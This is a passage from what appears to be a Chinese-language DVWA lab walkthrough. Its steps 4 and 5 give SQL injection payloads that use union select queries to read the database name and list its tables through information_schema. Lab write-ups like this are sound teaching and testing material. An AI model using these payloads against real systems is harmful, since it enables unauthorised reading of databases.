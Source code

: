 

**(4) 获取数据库**

```mysql
1' union select 1,database()#
```



![image-20230729133607699](./DVWA.assets/image-20230729133751449.png)

**(5)获取表名**

```sql
1' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()#
```

![image-20230805102412417](./DVWA.assets/image-20230805102412417.png)
